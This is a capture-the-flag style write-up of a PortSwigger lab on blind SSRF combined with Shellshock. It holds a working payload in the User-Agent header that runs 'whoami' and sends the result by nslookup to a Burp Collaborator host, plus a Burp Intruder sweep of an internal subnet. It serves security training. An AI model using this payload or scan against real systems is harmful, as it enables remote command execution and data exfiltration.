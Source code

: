 # Lab: Blind SSRF with Shellshock exploitation

Lab-Link: <https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation>  
Difficulty: EXPERT  
Python script: No script available

## Known information

- Website uses analystics software that fetches a URL specified in the referer header
- An internal server is available in the range 192.168.0.0/24 on port 8080 that is vulnerable to [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
- Goals:
  - Find the internal server
  - Exfiltrate the OS user name

## Steps

### Analysis

Similar to the [previous lab](../Blind_SSRF_with_out-of-band_detection/README.md), the web application is the shop website and contains a Referer header that can be used to trigger arbitrary URL requests:

![request](img/request.png)

![collaborator_hits](img/collaborator_hits.png)

Interestingly, the HTTP request there contains a user agent line indicating that it was done by the same browser I use. So changing the user agent to some random value and sending a request again, the request to Burp Collaborator mirrors it:

![modified_user_agent](img/modified_user_agent.png)

So anything I put there is sent to to the analytics software.

### Build payload

The shellshock bug is a family of vulnerabilities in bash that enable an attacker to execute arbitrary system commands that should not be available. A common exploit is within the Common Gateway Interface (CGI) that receives a number of environment variables from the web server. If these variables are taken from an attacker controlled source, any command can be executed. Often, the user agent is one of these variables (for a nice summary, see [https://blog.cloudflare.com/inside-shellshock](https://blog.cloudflare.com/inside-shellshock/))

The shellshock is triggered by this sequence

```bash
() { ignored;};arbitrary command
```

In order to solve the lab and exfiltrate the username, the payload needs to

1. Get the username of the process running the script.  
   This is done by calling `whoami` and prepending the result to the Burp Collaborator subdomain
2. Trigger a DNS loogup with the result.  
   This is done with `nslookup`, which is usually located in `/usr/bin/nslookup`

```bash
() { ignored;};/usr/bin/nslookup $(whoami).kl92koxxbdxld92gizj75a86vx1npc.burpcollaborator.net
```

I do not know the exact IP of the internal system, so I use Burp Intruder for this. The Referer-Header targets the internal server with

![intruder_request](img/intruder_request.png)

- Attack type: **Sniper**
- Payload: Numbers, 1 to 254, step 1

As it is a blind exploit, nothing shows up in Burp Intruder. The Burp Collaborator client is hit by a number of DNS requests containing the username:

![collaborator_showing_username](img/collaborator_showing_username.png)

Submit the solution to solve the lab:

![success](img/success.png)
